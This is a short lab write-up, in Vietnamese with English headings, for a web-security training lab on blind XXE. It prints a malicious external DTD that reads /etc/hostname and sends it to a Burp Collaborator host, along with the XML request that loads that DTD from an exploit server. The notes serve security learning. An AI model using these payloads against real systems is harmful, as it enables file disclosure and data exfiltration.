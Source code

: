 ![image-20250803163820094](./image/image-20250803163820094.png)



### Lab 3: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Lab des: 

Lợi dụng Blind XXE và external DTD để:

- Đọc nội dung `/etc/hostname`,
- Gửi dữ liệu ra ngoài (exfiltration) tới Burp Collaborator.

Steps: 

Tạo malicious DTD trên Exploit Server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://2226rv3txdohl1wuyhy25r31dsjj7bv0.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

> `&#x25` là ký tự `%` được mã hóa (XML encoding), cần thiết để parser xử lý `<!ENTITY % exfil ...>` đúng cách.

Sau khi store, nhấn **"View exploit"** và **copy URL** của DTD:

```
https://exploit-0a3c00b204d4513a80d40c0b01bc0010.exploit-server.net/exploit
```

Sửa payload request: 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0a3c00b204d4513a80d40c0b01bc0010.exploit-server.net/exploit">
  %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>

```
